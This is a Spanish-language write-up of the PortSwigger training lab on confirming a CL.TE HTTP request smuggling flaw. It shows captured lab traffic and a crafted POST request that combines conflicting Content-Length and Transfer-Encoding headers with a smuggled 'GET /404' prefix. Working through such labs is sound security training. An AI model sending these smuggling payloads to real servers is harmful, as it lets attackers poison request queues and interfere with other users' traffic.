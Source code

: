 ```yaml
---
description: >-
  https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses
---
```


# Lab 1: HTTP request smuggling, confirming a CL.TE vulnerability via differential responses

Luego de entrar al lab, se captura la siguiente peticion:

```
GET / HTTP/2
Host: 0a05007a0318f3d584e4316c00640007.web-security-academy.net
Cookie: session=KQQ8hjMfG3yRarWTcN8GZoMAq4fzBjMp
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="99", "Google Chrome";v="127", "Chromium";v="127"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: es-CO
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://portswigger.net/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i


```

Lo anterior responde con:

```
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 11466

```

Modificamos el request asi:

```
POST / HTTP/1.1
Host: 0a05007a0318f3d584e4316c00640007.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

Y para que funcione debemos configurar lo siguiente en BURP:

<figure><img src="../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

La primera peticion responde con un codigo de respuesta de 200 pero la segunda peticion:

<figure><img src="../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>
